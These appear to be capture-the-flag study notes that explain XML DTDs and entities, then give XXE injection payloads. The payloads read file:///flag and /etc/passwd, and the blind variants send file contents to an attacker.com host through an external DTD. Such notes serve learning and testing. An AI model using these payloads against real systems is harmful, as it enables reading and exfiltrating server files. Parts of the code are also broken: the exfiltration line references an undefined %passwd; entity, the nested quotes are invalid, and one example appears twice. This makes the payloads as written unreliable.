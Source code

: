 # XML
* eXtensible Markup Language


* Sample XML 
```xml
<message>
    <to>Alice</to>
    <from>Bob</from>
    <subject>Test</subject>
    <body>Hello World</body>
</message>
```

## DTD
* Document Type Definition, defines the structure of an `XML` document. It is placed before the actual `XML` content.


### Internal DTD
```xml
<?xml version="1.0"?>
<!DOCTYPE message[
    <!ELEMENT message (to,from,subject,body)>
    <!ELEMENT to (#PCDATA)>
    <!ELEMENT from (#PCDATA)>
    <!ELEMENT subject (#PCDATA)>
    <!ELEMENT body (#PCDATA)>
]>
<message>
    <to>Alice</to>
    <from>Bob</from>
    <subject>Test</subject>
    <body>Hello World</body>
</message>
```

* `<!DOCTYPE>`: the root element of this document is `message`
* `<!ELEMENT message>`: Each `message` element must contain these four elements: `to`, `from`, `subject`, `body`.
* `#PCDATA`: Parsed Character Data

### External DTD
```xml
<?xml version="1.0"?>
<!DOCTYPE message SYSTEM "message.dtd">
<message>
    <to>Alice</to>
    <from>Bob</from>
    <subject>Test</subject>
    <body>Hello World</body>
</message>
```
* The `DTD` of this xml file is imported from `message.dtd` with `SYSTEM` keyword.
* `SYSTEM` specifies the inclusion of an external file into `XML`, can be from `URI` or `URL`


## DTD Entities
* Entities are like variables, and they live inside `DTD` block. We can declare entities and use them later with `&` and `;` symbol before the entity name.
* They are always reference the entity begin with `&` and end with `;`

### Internal DTD Entity
* They must be enclosed by `DOCTYPE`!
```xml
<!DOCTYPE pwn [
<!ENTITY email "some@email.com">
<!ENTITY author "Alice &email;">
]>
<author>&author;</author>
```

Result `XML` data:
```
<author>Alice some@email.com</author>
```

### External DTD Entity
* They must be enclosed by `DOCTYPE`!
```xml
<!DOCTYPE pwn [
<!ENTITY author SYSTEM "http://example.com/entities.dtd">
]>
<author>&author;</author>
```


### Parameter Entity, aka Embedded Entity
* We can define an `entity` with a entity definition. When `&outer` is called, it is parsed like `<!ENTITY inner 'My name is Alice'>`
```xml
<!ENTITY name "Alice">
<!ENTITY outer "<!ENTITY inner 'My name is &name;'>">
&outer;
```

* Another example
```xml
<!ENTITY name "Alice">
<!ENTITY outer "<!ENTITY inner 'My name is &name;'>">
&outer;
```
# Simple XXE payload
* `%26` is `&` urlencoded.
```xml
<!DOCTYPE wrapper [<!ENTITY pwn SYSTEM "file:///flag">]> <a>%26pwn;</a>
```
# Blind XXE injections
* Since we can't directly reference an Entity within an internal DTD, we have to make use an external DTD. `XXE` is also known as `XML external entity` injection
```xml
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://attacker.com/evil.dtd">
<data>&send;</data>
```
* `evil.dtd`:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY send SYSTEM "http://attacker.com/?passwd=%passwd;">">
%wrapper;
```

# Blind XXE injection with file content containing `<`
* We will use `CDATA`, character data to bypass this.
* Anything between `<![CDATA[ ` and `]]>` will not be parsed by the XML parser
* `evil.dtd`:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
<!ENTITY % wrapper_send "<!ENTITY send SYSTEM "http://attacker.com/?passwd=%wrapper;">">
%wrapper_send;
```


